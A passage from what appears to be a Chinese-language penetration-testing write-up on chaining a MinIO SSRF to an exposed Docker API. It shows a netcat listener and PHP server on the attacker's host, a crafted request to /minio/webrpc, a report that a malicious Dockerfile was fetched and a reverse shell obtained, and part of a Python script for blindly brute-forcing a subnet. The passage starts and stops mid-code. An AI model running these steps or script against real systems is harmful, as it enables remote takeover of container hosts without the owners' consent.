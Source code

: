 ```bash
} | bash
```

其中target为 docker api的地址，execid下的反弹shell要修改为自己服务器监听地址

我们在自己的服务器开启简单php服务和nc监听

`sudo php -S 0.0.0.0:80`

`sudo nc -lvp 8080`

再次发送数据包

```http
POST /minio/webrpc HTTP/1.1
Host: x.x.x.x #黑客地址
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 76

{"id":1,"jsonrpc":"2.0","params":{"token":"Test"},"method":"web.LoginSTS"}
```

![Snipaste_2023-05-14_23-11-36](http://qn.laohuan.xin/Snipaste_2023-05-14_23-11-36-1684572404927-7.png)

可以看到，已经成功的请求了我们的恶意dockerfile文件，并获得了一个shell



## 自动化盲打

那么问题来了，这里作为测试我们知道docker api的地址为192.168.203.130，在实际环境中我们是不知道docker集群的api地址的，甚至连有没有docker集群都不一定，这个时候就只能盲打碰碰运气了

难点在于要利用这个漏洞不断地向我们的服务器获取重定向的地址，服务器端要不断的刷新这个重定向的地址。

为此写了一个简单的盲打脚本

```php
import os
import ipaddress
import re
import requests
import time

server = "192.168.203.130"  #  Nc监听服务器地址
ip_icdr = "192.168.203.0/24" # 要爆破的c段

def replace_ip(file,ip):
    with open(file,'r',encoding='utf8') as f:
        content = f.read()

    ip_regex = r'\b(?:\d{1,3}\.){3}\d{1,3}\b'
    ip_addresses = re.findall(ip_regex, content)
    for i in ip_addresses:
        if i != server:
            content = content.replace(i,ip)

    with open(file,'w') as f:
        f.write(content)

def replace(old,new):
	old_ip  = old+':2375'
	new_ip = new+':2375'
	cmd = 'sed -i "s/{0}/{1}/g" index.php'.format(old_ip,new_ip)
	cmd2 = 'sed -i "s/{0}/{1}/g" Dockerfile'.format(old_ip,new_ip)
	os.system(cmd)
	os.system(cmd2)
```